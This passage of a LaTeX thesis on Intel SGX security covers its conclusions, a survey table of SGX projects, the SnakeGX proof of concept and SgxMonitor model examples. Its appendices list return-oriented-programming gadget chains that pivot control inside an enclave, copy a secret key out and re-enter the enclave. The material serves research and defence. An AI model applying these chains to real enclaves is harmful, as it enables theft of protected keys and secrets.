and \emph{enclaves} information, rebuilding kernel structures, and analyzing 
the \emph{enclave} interfaces and layout. This information can help 
human analysts to identify the presence of enclaves, their corresponding
user-space processes, and kick-start manual reverse engineering 
by pointing out the functions responsible for the communication to, and from,
the enclave code. 
We implemented these techniques in an acquisition tool and in a set of
Volatility plugins and show how they can be applied to the analysis of $45$
samples and three real use-case scenarios.

In Chapter~\ref{chp:runtime-protection-untrusted}, we proposed ScaRR, the first 
schema that enables runtime RA for complex systems to detect control-flow 
attacks generated in user-space.
ScaRR relies on a novel control-flow model that allows to:
\begin{enumerate*}[label=(\roman*)]
	\item apply runtime RA on any software regardless of its complexity,
	\item have intermediate verification of the monitored program, and
	\item obtain a more fine-grained report of an incoming attack.
\end{enumerate*}
We developed ScaRR and evaluated its performance against the set of tools of 
the SPEC CPU 2017 suite.
As a result, ScaRR outperforms existing solutions for runtime RA on complex 
systems in terms of attestation and verification speed, while guaranteeing a 
limited network traffic.
Future works include: investigating techniques to extract more precise CFG, 
facing compromised operating systems, and studying new verification methods for 
partial reports.

In Chapter~\ref{chp:runtime-protection-trusted}, we proposed SgxMonitor, a 
novel remote attestation anomaly detection schema for SGX enclaves. As enclaves 
are designed to secure code that performs specific security- and 
privacy-sensitive tasks, SgxMonitor relies on a combination of symbolic 
execution and static analysis to model the expected behavior of enclaves with 
high code coverage and low false positives.  
We assessed SgxMonitor across four real use cases (\ie \textsf{Contact}, 
\textsf{StealthDB}, \textsf{libdvdcss}, \textsf{SGX-Biniax2}) and a 
\textsf{unit test} to validate enclave's corner cases. SgxMonitor overhead is 
comparable to the state-of-the-art of remote attestations (a median of $260$K
\emph{action}/s), whereas its macro-benchmark overhead and high precision
with $96$\% code coverage and zero false positives support SgxMonitor in 
realistic deployments to detect anomalous runtime executions of SGX enclaves.

\vspace{0.3cm}
Following the thesis direction, academia and industry should invest more 
effort for deeply understanding the implications of TEE in real scenarios.
For the market to really accept these technologies as a new standard, vendors 
should study solutions that overcome the TEE intrinsic scalability issues. 
In Chapter~\ref{chp:static-protection}, our new design is only a first step for 
smarter software architecture for TEE.
Much work is left to be done in other TEE technologies, such as ARM TrustZone 
\citep{arm-trustzone} or Apple Platform Security \citep{apple-enclave}, more 
common in smartphones.
As a consequence, having more isolated \emph{trusted regions} will lead to new 
threats, as highlighted in Chapter~\ref{chp:advanced-threats} by SnakeGX.
However, SnakeGX addresses only one part of the problem. 
New completely autonomous data-only malware, which do not require an external 
trigger, could appear in the near future (similar to the work of 
\cite{vogl2014persistent}).
When this happens, the security community will be unprepared to dissect such 
threats, as discussed in Chapter~\ref{chp:forensic}.
Thus arising the necessity of more advanced malware dissection techniques that
can penetrate the TEE boundary. A promising direction is represented by 
offensive forensic techniques that could use micro 
architectures drawbacks as pinlocks for \emph{trusted regions} 
\citep{offensiveforensic}.

Having the capability to bypass the TEE \emph{memory isolation}, and 
conseguentely take control of trusted  \emph{memory regions}, arises the need 
of new defenses beyond the current \emph{remote attestations} schemes.
In this scenario, the models in chapters~\ref{chp:runtime-protection-untrusted} 
and~\ref{chp:runtime-protection-trusted} just scratch the surface of 
possible solutions as they merely indicate directions and new challenges for 
more comprehensive approaches.
Besides classic ROP techniques, data-only attacks can be used to bend the 
enclave execution without violating the code integrity, and the community 
should be ready to face these threats.
For tackling these attacks, runtime RAs should include data-flow information.
First examples have been explored, but they mainly fit embedding systems 
\citep{sun2020oat,aberadiat}.
More importantly, current runtime RAs introduce an important overhead 
that makes them impractical in real scenarios.
From here the need of tracing \emph{trusted regions} at hardware level.
Besides few resarch prototypes for embedded systems 
\citep{Dessouky:2018:LLH:3240765.3240821}, also major CPU vendors are proposing 
hardware-level protections, such as Intel CET \citep{intelcet} or for ARM 
\citep{armpa}.
However, these solutions requires further development since the academic 
community already managed to bypass these controls \citep{van2012memory}.

In conclusion, this thesis discusses five contributions in the field of TEEs to 
overcome current limitations, explore new threats, and propose mitigation.
The works in chapters~\ref{chp:static-protection}, \ref{chp:advanced-threats}, 
and~\ref{chp:forensic} dig into \emph{memory isolation} while 
chapters~\ref{chp:runtime-protection-untrusted} 
and~\ref{chp:runtime-protection-trusted} propose new models that extend 
\emph{remote attestations} schemes.
We hope the results achieved by these works will help TEE designers and 
security experts to better understand the role of these new technologies in 
an even more connected world.




%----------------------------------------------------------------------------------------
%	THESIS CONTENT - APPENDICES
%----------------------------------------------------------------------------------------

\appendix % Cue to tell LaTeX that the following "chapters" are Appendices

% Include the appendices of the thesis as separate files from the Appendices folder
% Uncomment the lines as you write the Appendices

%% Appendix A

\chapter{Appendix Title Here} % Main appendix title

\label{AppendixA} % For referencing this appendix elsewhere, use \ref{AppendixA}

Write your Appendix content here.
%\chapter{Preliminary Analysis of Assumptions}
\label{app:preliminary-analysis-assumptions}

Table~\ref{tbl:sgx-open-source-prj} contains a list of $27$ stand-alone SGX
projects extracted from~\cite{asop}.
For each project, we indicate their category, 
if it used the Intel SGX SDK,
%if it has been developed on top of the Intel SGX SDK, 
the number of trusted threads for each 
enclave of the project, and a note.
We also list details for each enclave, if the project contains many.
We counted $24$ out of $27$ projects developed on top of Intel SGX SDK, two 
projects use alternative SDKs (\ie Open Enclave SDK~\cite{openenclave} and
Graphene~\cite{203255}), while one contains a simulated enclave.
Among the projects based on the Intel SGX SDK, we counted a total of $31$ 
enclaves, and $24$ out of $31$ are multi-threading ($77\%$).

%#nProjects: 27
%#nHasSDK: 24
%#nEnclaves: 31
%#multi-thread enclaves: 24 0.7741935483870968

\begin{table}[h]
	\centering
	\begin{tabular}{lcc}
		\toprule
		\textbf{Category/Project} & \multicolumn{1}{l}{\textbf{Intel SGX SDK}} 
		& 
		\multicolumn{1}{l}{\textbf{\# of threads}} \\ \midrule \midrule
		\multicolumn{3}{l}{\textbf{Blockchain}} \\ \midrule
		teechain & \checkmark & 10 \\
		private-data-objects & \checkmark & 10 \\
		& \checkmark & 1 \\
		& \checkmark & 2 \\
		fabric-secure-chaincode & \checkmark & 10 \\
		& \checkmark & 8 \\
		eevm & \multicolumn{2}{l}{Open Enclave SDK~\cite{openenclave}} \\
		lucky & \multicolumn{2}{l}{Based on a mock SGX implementation} \\
		node-secureworker & \checkmark & 1 \\
		town-crier & \checkmark & 10 \\
		& \checkmark & 10 \\
		& \checkmark & 1 \\
		& \checkmark & 6 \\
		bolos-enclave & \checkmark & 1 \\ \midrule
		\multicolumn{3}{l}{\textbf{Machine Learning Framework}} \\ \midrule
		gbdt-rs & \checkmark & 1 \\
		bi-sgx & \checkmark & 1 \\
		slalom & \checkmark & 4 \\ \midrule
		\multicolumn{3}{l}{\textbf{Applications}} \\ \midrule
		sgxwallet & \checkmark & 16 \\
		sgx-tor & \checkmark & 10 \\
		& \checkmark & 10 \\
		obscuro & \checkmark & 50 \\
		channel-id-enclave & \checkmark & 10 \\
		sfaas & \checkmark & 3 \\
		phoenix & \multicolumn{2}{l}{Graphene~\cite{203255}} \\
		posup & \checkmark & 4 \\
		tresorsgx & \checkmark & 10 \\ \midrule
		\multicolumn{3}{l}{\textbf{Private Key/Passphrase Management}} \\ 
		\midrule
		sgx-kms & \checkmark & 8 \\
		keystore & \checkmark & 1 \\
		safekeeper-server & \checkmark & 10 \\ \midrule
		\multicolumn{3}{l}{\textbf{Database}} \\ \midrule
		talos & \checkmark & 50 \\
		opaque & \checkmark & 10 \\
		stealthdb & \checkmark & 10 \\
		sgx\_sqlite & \checkmark & 10 \\
		shieldstore & \checkmark & 8 \\
		\bottomrule		
	\end{tabular}
	\caption{SGX open-source projects extracted from~\cite{asop}.}
	\label{tbl:sgx-open-source-prj}
\end{table}
%\chapter{Code-Reuse Technique}
\label{ssec:my-rop-chain}
%To show the feasibility of SnakeGX, we built our proof-of-concept
%on top of the research proposed by Biondo et al.~\cite{biondo2018guard}.
To show the feasibility of SnakeGX, we choose for our proof-of-concept
the technique described by Biondo et al.~\cite{biondo2018guard}.
This means that SnakeGX uses ROP. 
%\todo{FT: suggestion: "SnakeGX does not rely on a specific technical, but it 
%does require one to control its behavior."}
However, as stated in Section~\ref{sec:threat-model}, 
%SnakeGX does not require any specific code-reuse technique as long as this 
%allows controlling the enclave behaviour.
SnakeGX does not rely on a specific technique, but it does require one to 
control its behavior.
Moreover, we adapted their approach to work on the Intel SGX SDK newer versions.

In the original approach, the authors exploited \texttt{asm\_oret()} and 
\texttt{continue\_exec\\ution()} functions.
%, both described in~\cite{biondo2018guard}. %Section~\ref{ssec:cont}.
More precisely, they crafted a set of fake frame in order to create a loop between these functions.
In the x$64$ architecture, the first four function parameters are passed by registers.
Therefore, the authors used \texttt{asm\_oret()} for setting \texttt{continue\_execution()} registers pointing to a controlled structure.
However, as also Biondo underlined, it is more complicated to use 
\texttt{asm\_oret()} for SDK $2.0$.
This is why in our approach we substituted \texttt{asm\_oret()} with a 
\emph{glue gadget}.
This might be any gadget that sets the input register for the \texttt{continue\_execution()} function.
Since we developed our proof-of-concept for Linux 64bit, \texttt{continue\_execution()} expects the first argument
(\ie a \texttt{sgx\_exception\_info\_t} address) in the \texttt{rdi} register.
This is achievable by using a classic \texttt{pop rdi} gadget. 
Windows, instead, follows a different calling convention
and \texttt{continue\_execution()} expects an \texttt{ocall\_context} address shifted by $8$ byes in the \texttt{rcx} register.
Therefore we used a \texttt{pop rcx} as a \emph{glue gadget}.
In our evaluation, we found \texttt{pop rdi} and \texttt{pop 
rcx} gadgets in the Intel SGX SDK version for Linux and Windows, respectively.

Figure~\ref{fig:flavio-enclave-chain} describes our code-reuse technique.
The attacker crafts a fake stack that can reside inside or outside the enclave,
we used both approaches. The fake stack is composed by frames, one of which contains in order:
\begin{enumerate*}[label=(\roman*)]
	\item a \emph{glue gadget} address,
	\item a fake \texttt{sgx\_exception\_info\_t} address,
	\item the \texttt{continue\_execution()} address.
\end{enumerate*}
Once the first \emph{glue gadget} is triggered, it will set \texttt{rdi} (or \texttt{rcx} in Windows) register pointing to the fake \texttt{sgx\_exception\_info\_t} structure.
Then, the \texttt{continue\_execution()} will set registers according to \texttt{sgx\_exception\_info\_t} 
and it will also pivot to the actual gadget.
Since \texttt{continue\_execution()} allows us to control all general registers,
we can easily invoke another function instead of a simple gadget (\eg \texttt{memcpy} in Frame~$1$).
Finally, the gadget will return at the beginning of the next frame.
At this point, the CPU will trigger a new \emph{glue gadget} and the attack continues.

Our technique is more flexible compared to the one described by Biondo.
By using a \emph{glue gadget}, we can easily drive \texttt{continue\_execution()} without
relying on other SDK functions that might change in future versions.

\begin{figure}[t]
	\centering
	
\includegraphics[width=0.8\textwidth]{fig_c5/flavio-enclave-chain.pdf}
	\caption{Chain used in the proof-of-concept of SnakeGX.}
	\label{fig:flavio-enclave-chain}
\end{figure}
%%\onecolumn
\chapter{Conditional Chain}
\label{app:condition-gadget}
Conditional ROP-chain, the chain is triggered by using 
\texttt{sgx\_exception\_info\_t} structure that configures the initial	
registers (see Appendix~\ref{ssec:my-rop-chain}).
The \texttt{SP} register is perturbed if the value of 
\texttt{\&lastKey} differs from the value of \texttt{\&key} in order to 
pivot a true or a false ROP-chain, respectively.
%\begin{figure}[h]
	\begin{lstlisting}[style=CStyle,escapechar=@]	
	/// we set the following registers through
	/// a sgx_exception_info_t structure:
	/// rdi = &lastKey; last key exfiltrated
	/// rax = &key; current key loaded
	/// rdx = #offset; to pivot to the false ROP-chain
	/// rcx = &true-chain; address of the true ROP-chain
	mov eax, dword ptr [rax] ; ret
	mov rdi, qword ptr [rdi + 0x68] ; ret
	cmp eax, edi ; sete al ; movzx eax, al ; ret
	neg eax ; ret
	and eax, edx ; ret
	add rax, rcx ; ret
	xchg rax, rsp ; ret
	// 0x80 nops for padding
	// beginning of true ROP-chain
	pop rdi ; ret
	// context to pivot to the ROP-chain that implements the true branch
	&context_true
	// address of continue_execution function
	&continue_execution
	// beginning of false ROP-chain
	pop rdi ; ret 
	// context to pivot to the ROP-chain that implements the false branch
	&context_false
	// address of continue_execution function
	&continue_execution\end{lstlisting}
%	\caption{Conditional ROP-chain, the chain is triggered by using 
%		\texttt{sgx\_exception\_info\_t} structure that configures the initial	
%		registers (see Appendix~\ref{ssec:my-rop-chain}).
%		The \texttt{SP} register is perturbed if the value of 
%		\texttt{\&lastKey} differs from the value of \texttt{\&key} in order to 
%		pivot a true or a false ROP-chain, respectively.}
%	\label{fig:condition-chain}
%\end{figure}

%\begin{figure}[h]
%	\begin{lstlisting}[style=CStyle,escapechar=@]	
%/// we set the following registers through a sgx_exception_info_t structure:
%// rcx = &ctn // address of counter for internal status
%// rsi = 0
%// rdx = #offset // to pivot to the false ROP-chain
%// r10 = &true-chain // address of the true ROP-chain
%// rdi = 10 // number of elements to check
%mov eax, dword ptr [rcx] ; ret
%sub eax, edi ; ret
%neg eax ; ret
%adc esi, esi ; ret
%xor eax, eax ; ret // it avoids the side effect of the following gadget
%mov eax, esi ; mov rcx, rdi ; jne 0x70d8 ; ret
%neg eax ; ret
%and eax, edx ; ret
%add rax, r10 ; ret
%xchg rax, rsp ; ret 0x80
%// 0x80 nops for padding
%// beginning of true ROP-chain
%pop rdi ; ret 
%&context_true // context to pivot to the ROP-chain
%							// that implements the true branch
%&continue_execution // address of continue_execution function
%// beginning of false ROP-chain
%pop rdi ; ret 
%&context_false  // context to pivot to the ROP-chain 
%			 					// that implements the false branch
%&continue_execution // address of continue_execution function\end{lstlisting}
%	\caption{Condition ROP-chain, the chain is triggered by 
%	using 
%	\texttt{sgx\_exception\_info\_t} structure that configures the registers 
%	(see Appendix~\ref{ssec:my-rop-chain}).
%	The \texttt{SP} register is perturbed according to the value stored in 
%	\texttt{\&ctn} in order to pivot to a true or a false ROP-chain, 
%	respectively.}
%	\label{fig:condition-chain}
%\end{figure}

\section{Context-Switch Chain}
\label{app:context-switch-chain}
Details of the \texttt{sgx\_exception\_info\_t} 
structures used to leak the key and to switch outside the enclave.
The structures are used according to the techniques described in 
Appendix~\ref{ssec:my-rop-chain}.
%\begin{figure}[h]
	\begin{lstlisting}[style=CStyle,escapechar=@]
/* ...previous sgx_exception_info_t structures... */
// leaks the key outside the enclave
// memcpy(key, buff)
ctxPc[2].cpu_context.rsi = &key; // address of the key
ctxPc[2].cpu_context.rdi = &buff; // memory regions where leaking the key
ctxPc[2].cpu_context.rdx = KEY_LENGTH; // length of the key
ctxPc[2].cpu_context.rip = &memcpy;
// prepares the next boot chain in the workspace
// memcpy(boot_chain, workspace)
ctxPc[3].cpu_context.rdi = &workspace; // workspace address
ctxPc[3].cpu_context.rdx = sizeof(boot_chain);
ctxPc[3].cpu_context.rsi = &boot_chain_backup;
ctxPc[3].cpu_context.rip = &memcpy;
// set the fake OCALL frame in the enclave
// memcpy(fake_frame, enclave)
ctxPc[4].cpu_context.rdi = &fake_frame;
ctxPc[4].cpu_context.rdx = sizeof(fake_frame);
ctxPc[4].cpu_context.rsi = &fake_frame_backup;
ctxPc[4].cpu_context.rip = &memcpy;
// saves CPU extended states for asm_oret
// save_xregs(xsave_buffer)
ctxPc[5].cpu_context.rdi = &xsave_buffer;
ctxPc[5].cpu_context.rip = &save_xregs;
// sets the trusted thread as it is performing an OCALL
// update_ocall_lastsp(fake_frame)
ctxPc[6].cpu_context.rdi = fake_frame;
ctxPc[6].cpu_context.rip = &update_ocall_lastsp;
// pivots to the outside-chain
// eenclu[exit] -> outside_chain
ctxPc[7].cpu_context.rax = 0x4; // EEXIT
ctxPc[7].cpu_context.rsp = &outside_chain_stack;
ctxPc[7].cpu_context.rbx = &outside_chain_first_gadget;
ctxPc[7].cpu_context.rip = &enclu;\end{lstlisting}
%\caption{Details of the \texttt{sgx\_exception\_info\_t} 
%structures used to leak the key and to switch outside the enclave.
%The structures are used according to the techniques described in 
%Appendix~\ref{ssec:my-rop-chain}.}
%\label{fig:context-switch-trusted-chain}
%\end{figure}

Details of the outside ROP-chains used to resume 
payload inside the enclave.
%\begin{figure}[h]
	\begin{lstlisting}[style=CStyle,escapechar=@]
/* ...previous gadgets for shipping the password remotely... */
// gadgets to resume payload within the enclave
pop rax ; ret
0x2 // EENTER
pop rbx ; ret
&tcs_address
pop rdi ; ret // rdi = -2 -> ORET
0xfffffffffffffffe // -2
pop rcx ; ret // for async exit handler
&Lasync_exit_pointer
&enclu_urts\end{lstlisting}
%	\caption{Details of the outside ROP-chains used to resume 
%	payload inside 
%	the enclave.}
%	\label{fig:colntext-switch-outside-chain}
%\end{figure}

\chapter{SgxMonitor: Model Examples}
\label{sec:model-examples_sgxmonitor}

In this section, we discuss the application of SgxMonitor model 
(Section~\ref{sec:model_sgxmonitor}) over two important Intel SGX SDK 
mechanisms:
the outside function interaction (Section~\ref{ssec:ocall-example}) and the 
exception handling (Section~\ref{ssec:exception-handling}).

\paragraph{Transaction syntax.}
For the sake of simplicity, we indicate the transactions in 
tables~\ref{tbl:transactions} and~\ref{tbl:transactions-exception} with the 
following syntax:
$$
T = P \cup [s].
$$
$T$ is composed by any \emph{valid} sequence of \emph{generic actions} $P$ 
(according to the specification of Section~\ref{sec:model_sgxmonitor}) that 
terminates with the \emph{stop action} $s$.
In case $T$ does not contain any \emph{generic action}, we omit $P$.

\subsection{Outside Function Modeling}
\label{ssec:ocall-example}

Figure~\ref{fig:outside-function} shows the application of SgxMonitor to the 
enclave \emph{outside function} interaction.

After the enclave initialization, the host invokes a \emph{secure 
function}, which activates an \texttt{EENTER} opcode with the 
\texttt{idx} greater or equal than \emph{zero} (\ie $T^\text{ECALL}$).
From this point, the \emph{secure function} can evolve in two ways:
\begin{enumerate*}[label=(E\arabic*)]
	\item it does not need any interaction with the host, thus it performs an 
	ERET; or 
	\item it requires an interaction with the host, thus it performs an ORET.
\end{enumerate*}
In case (E1), the enclave does not generate any context and, therefore,
it performs a valid execution path that ends with an 
\texttt{EEXIT} opcode (\ie $T^{\text{ERET}}$).
In case (E2), instead, we need two steps to accomplish an OCALL:
\begin{enumerate*}[label=(\roman*)]
	\item generating an \texttt{ocall\_context} (\ie $T^\text{OCALL1}$), and
	\item invoking the \emph{outside function} (\ie $T^\text{OCALL2}$).
\end{enumerate*}

Once the \emph{outside function} needs to resume the \emph{secure function} 
execution, it invokes an ORET, that is composed by two steps: 
\begin{enumerate*}[label=(\roman*)]
	\item the execution enters in the enclave (\ie $T^\text{ORET1}$), and
	\item the \texttt{ocall\_context} is restored (\ie $T^\text{ORET2}$).
\end{enumerate*}
From this point ahead, the \emph{secure function} can exit the enclave
through an ERET (E1) or perform further OCALLs (E2).

\begin{figure}[t]
	\centering
	\begin{subfigure}[b]{0.43\textwidth}
		\centering
		\begin{tabular}{ll}
			\toprule 
			\textbf{Transaction} & \textbf{Definition} \\ \midrule
			$T^\text{ECALL}$ & $[(\text{N}, \texttt{src}, 
			\texttt{idx})_{\texttt{idx} \geq 0}]$ \\ 
			$T^\text{ERET}$ & $P \cup [(\text{T},\texttt{src},\oslash)]$ \\
			$T^\text{OCALL1}$ & $P \cup [(\text{G}, \texttt{src}, 
			\texttt{ctx})]$ \\ 
			$T^\text{OCALL2}$ & $P \cup [(\text{D},\texttt{src},\oslash)]$ 
			\\ 
			$T^\text{ORET1}$ & $[(\text{N}, \texttt{src}, 
			\texttt{idx})_{\texttt{idx} = -2}]$ \\
			$T^\text{ORET2}$ & $P \cup [(\text{C}, \texttt{src}, 
			\texttt{ctx})]$ \\
			\bottomrule
		\end{tabular} 
		\caption{Transaction definition of SgxMonitor model for the 
		\emph{outside function} interaction.}
		\label{tbl:transactions}
    \end{subfigure}
	\hfill
	\begin{subfigure}[b]{0.56\textwidth}
		\centering
		
\includegraphics[width=\linewidth]{fig_c6/my-model.pdf}
		\caption{SgxMonitor representation of \emph{outside functions} 
		interaction.}
		\label{fig:my-model}
	\end{subfigure}
	\caption[SGX \emph{outside functions} interaction modeling.]{Example of 
	\emph{outside functions} interaction modeling.
	We show the FSM representation and the transaction definitions, 
	respectively.}
	\label{fig:outside-function}
\end{figure}
\begin{figure}[t]
\centering
\begin{subfigure}[b]{0.43\textwidth}
	\centering
	\begin{tabular}{ll}
		\toprule 
		\textbf{Transaction} & \textbf{Definition} \\ \midrule		
		\texttt{AEX} & \emph{handled at microcode level} \\
		$T^\text{THD1}$ & $[(\text{N}, \texttt{src}, 
		\texttt{idx})_{\texttt{idx} = -3}]$ \\
		$T^\text{THD2}$ & $P \cup [(\text{J}, \texttt{src}, \texttt{ctx})]$ \\
		$T^\text{THD3}$ & $P \cup [(\text{T}, \texttt{src}, \oslash)]$ \\
		$T^\text{ERESUME}$ & $P \cup [(\text{R}, \texttt{src}, \oslash)]$ \\
		$T^\text{IHD1}$ & $P \cup [(\text{K}, \texttt{src}, \texttt{ctx})]$ \\
		$T^\text{IHD2}$ & $P \cup [(\text{J}, \texttt{src}, \texttt{ctx})]$ \\
		$T^\text{CONT}$ & $P \cup [(\text{K}, \texttt{src}, \texttt{ctx})]$ 
		\\		
		\bottomrule
	\end{tabular} 
	\caption{Transaction definition of SgxMonitor model for the exception 
		handling interaction.}
	\label{tbl:transactions-exception}
\end{subfigure}
\hfill
\begin{subfigure}[b]{0.5\textwidth}
	\centering
	\includegraphics[width=\linewidth]{fig_c6/my-model-exception.pdf}
	\caption{SgxMonitor representation of exception handling.}
	\label{fig:my-model-exception}
\end{subfigure}
\caption[SGX \emph{exception handling} modeling.]{Example of \emph{exception 
handling} modeling. We show the FSM representation and the transaction 
definitions, respectively.}
\label{fig:exception-handling}
\end{figure}

\subsection{Exception Handling Modeling}
\label{ssec:exception-handling}

In Figure~\ref{fig:my-model-exception}, we depict the SgxMonitor 
representation 
of the SGX SDK exception handling.
Overall, the SGX SDK handles exceptions in two phases, called \emph{trusted 
handle} (TH) and \emph{internal handle} (IH), respectively.
In the first phase (TH), the SGX interrupts its 
execution as a result of an \texttt{AEX}, and passes the control to the host.
As soon as an exception is triggered, the microcode saves the CPU
registers in a dedicated page, called SSA, for later 
stages~\cite{costan2016intel}.
After an \texttt{AEX}, the SDK expects the invocation of a dedicated 
\emph{secure function}, called \texttt{trts\_handle\_exception}, which index is 
$-3$ (\ie T$^\text{THD1}$).
This function fills an \texttt{sgx\_exception\_info\_t} structure with the 
values previously stored in the SSA (\ie T$^\text{THD2}$).
At the end of (TH), the enclave is ready for the second phase (IH) and thus it
leaves the control to the host (\ie T$^\text{THD3}$).
The host invokes an \texttt{ERESUME} to activate
the \texttt{internal\_handle\_exception} routine (\ie T$^\text{ERESUME}$).
Now, the enclave iterates among the custom handlers eventually registered
(\ie T$^\text{IHD1}$ and T$^\text{IHD2}$).
Each custom handler attempts at fixing the exception by analyzing the 
\texttt{sgx\_exception\_info\_t}, possibly altering it.
Therefore, we update the enclave internal state at each iteration.
After invoking all the internal handlers, the SGX SDK uses the
\texttt{continue\_execution} routine to resume the \emph{secure function} (\ie 
T$^\text{CONT}$).
Finally, if the exception is properly handled, the \emph{secure function} 
will continue, otherwise, a new \texttt{AEX} happens and the 
exception workflow starts again.



%----------------------------------------------------------------------------------------
%	BIBLIOGRAPHY
%----------------------------------------------------------------------------------------

%\nocite{*}
\printbibliography[heading=bibintoc]

%----------------------------------------------------------------------------------------

\end{document}
